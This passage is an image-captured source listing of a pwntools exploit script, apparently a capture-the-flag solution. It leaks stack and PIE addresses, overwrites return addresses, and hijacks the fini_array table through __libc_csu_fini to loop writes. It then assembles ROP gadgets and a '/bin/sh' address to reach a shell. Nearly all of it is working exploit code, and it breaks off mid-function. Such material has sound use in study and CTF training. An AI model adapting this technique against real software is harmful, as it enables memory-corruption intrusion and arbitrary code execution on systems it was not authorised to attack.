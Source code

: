 ```
    leak = target.recvline()
    leak = int(leak, 16)
    return leak

def write(adr, val, other = 0):
    target.recvuntil('address :')
    target.send(str(adr))
    target.recvuntil('data :')
    if other == 0:
        target.send(p64(val))
    else:
        target.send(val)

    

# First leak the Stack address, and calculate where the return address will be in do_overwrite
stackLeak = leak(1)
ripAdr = stackLeak + 0x18

# Calculate where the return address for __libc_csu_fini 
csiRipAdr = stackLeak - 72

# Write over the return address in do_overwrite with do_leak
write(ripAdr, p8(0x04), 1)

# Leak the PIE address of do leak
doLeakAdr = leak(2)

# Calculate the base of PIE  
pieBase = doLeakAdr - elf.symbols['do_leak']

# Calculate the address of the _fini_arr table, and the __libc_csu_fini function using the PIE base
finiArrAdr = pieBase + elf.symbols['__do_global_dtors_aux_fini_array_entry']
csuFini = pieBase + elf.symbols["__libc_csu_fini"]

# Calculate the position of do_overwrite
doOverwrite = pieBase + elf.symbols['do_overwrite']

# Write over return address in do_overwrite with do_overwrite
write(ripAdr, p8(0x04), 1)
leak(1)

# Write over the two entires in _fini_arr table with do_overwrite, and restart the loop
write(finiArrAdr + 8, doOverwrite)
write(finiArrAdr, doOverwrite)
write(csiRipAdr, csuFini)

# Increment stack address due to new iteration of loop
csiRipAdr += 8

# Establish rop gagdets, and "/bin/sh" address
popRdi = pieBase + 0x84fa
popRsi = pieBase + 0xd9f2
popRdx = pieBase + 0x484c5
popRax = pieBase + 0x460ac
syscall = pieBase + 0x917c
binshAdr = pieBase + 0x2b4500
pivotGadget = pieBase + 0x106f3

# Function which we will use to write Qwords using loop
def writeQword(adr, val):
    global csiRipAdr
    write(csiRipAdr, csuFini)
```